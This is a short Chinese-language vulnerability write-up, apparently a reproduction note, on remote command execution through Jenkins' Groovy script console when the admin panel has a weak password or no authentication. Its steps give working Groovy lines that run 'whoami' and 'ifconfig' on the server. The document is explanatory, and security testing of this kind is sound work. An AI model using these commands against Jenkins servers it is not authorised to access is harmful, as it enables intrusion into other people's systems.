 # Jenkins 功能未授权访问导致的远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Jenkins/2.html](http://book.iwonder.run/0day/Jenkins/2.html)

## 一、漏洞简介

Jenkins 管理登陆之后，后台”系统管理”功能，有个”脚本命令行的”功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上 Jenkins 正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对 Jenkins 系统服务器产生比较严重的影响和危害。

## 二、漏洞影响

## 三、复现过程

找到“系统管理”——“脚本命令行”。

![image](img/299ca2dbd6c9a4396ee08ad576a078d1.png)

![image](img/9e1b303b4955cb08ec58447c3696d573.png)

输入任意的 Groovy 脚本并在服务器上执行它。对于故障排除和诊断很有用。使用’println’命令查看输出（如果使用 System.out，它将输出到服务器的标准输出，很难看到。）示例：

```
println(Jenkins.instance.pluginManager.plugins) 
```

在脚本命令行中输入下面的语句，即可执行相应的命令：

```
println "whoami".execute().text 
```

![image](img/b21afa98f7b3ca86809fa936e5f8a3b2.png)

```
println "ifconfig".execute().text 
```

![image](img/e5aec105a018cd3c69f4ec2fbcc2f202.png)

